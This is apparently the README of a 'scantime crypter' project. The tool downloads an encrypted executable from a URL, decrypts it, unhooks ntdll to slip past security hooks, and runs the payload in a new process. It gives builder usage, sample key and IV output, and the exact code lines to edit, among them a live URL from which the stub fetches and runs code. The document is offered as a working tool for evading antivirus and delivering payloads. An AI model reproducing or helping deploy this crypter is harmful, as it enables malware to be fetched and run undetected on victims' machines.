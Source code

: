 # FSTC-August-2024
Fallen Scantime Crypter: August 2024

## Notes

Download encrypted file from URL 

Decrypt the file & save to disk

Loads ntdll from disk

Maps sections between new ntdll & hooked ntdll / unhooks

Runs PE from download in a new process

## Usage

Build.exe will take an original PE, encrypt with a key and save the new file. You can skip the option key if you want a randomly generated key to be used.
```
Usage: Build.exe <path_to_original_PE> <path_to_output_encrypted_file> [32_byte_key]
Example: Build.exe test_payload.exe encrypted_payload.bin 0123456789abcdef0123456789abcdef
```

After building you will see output in your terminal like this:
```
[*] Generated random 32-byte key: 7ddd25d6c2317d1ecd78cf6b301e3e22866e3458926b9e5badcb42f409684d83
BYTE key[] = { 0x7d, 0xdd, 0x25, 0xd6, 0xc2, 0x31, 0x7d, 0x1e, 0xcd, 0x78, 0xcf, 0x6b, 0x30, 0x1e, 0x3e, 0x22, 0x86, 0x6e, 0x34, 0x58, 0x92, 0x6b, 0x9e, 0x5b, 0xad, 0xcb, 0x42, 0xf4, 0x09, 0x68, 0x4d, 0x83 };
[*] Generated random 16-byte IV: 3036fc85a678d7bff499112ea8257b13
BYTE iv[] = { 0x30, 0x36, 0xfc, 0x85, 0xa6, 0x78, 0xd7, 0xbf, 0xf4, 0x99, 0x11, 0x2e, 0xa8, 0x25, 0x7b, 0x13 };
[*] File encrypted successfully.
```

Once you encrypt your original program with Build, you should upload it to a server and get the public URL.

Then, go to FSTC project/code and edit the main file ( int main() ) for these 3 lines:
```
LPCWSTR url = L"https://github.com/LNodesL/FSTC-August-2024/raw/218a78376b7249fc6231fd96a04827e1ffbfae3d/resources/Payload-Demo.fstc";
BYTE key[] = { 0x8b, 0xc9, 0x62, 0xf5, 0xb6, 0x2c, 0x4d, 0x43, 0xb3, 0xc0, 0x8e, 0xec, 0x55, 0x1d, 0x40, 0x77, 0x49, 0xea, 0x98, 0x44, 0x9d, 0x76, 0xc9, 0xec, 0xeb, 0x66, 0x94, 0x91, 0x98, 0xa3, 0x65, 0xb2 };
BYTE iv[] = { 0x2d, 0xb4, 0xa8, 0xab, 0x77, 0x7b, 0x42, 0x84, 0x80, 0x7c, 0xb9, 0x66, 0x31, 0x48, 0xae, 0x43 };
```

Now compile FSTC, which will download your payload from the URL, decrypt, attempt to unhook ntdll, and create a process for the PE as-is.


## Future Development

- save to tmp file instead of to cwd

- allow builder to modify the final FSTC.exe program's resources or other data to make it easier to build for a new payload/URL without re-compiling
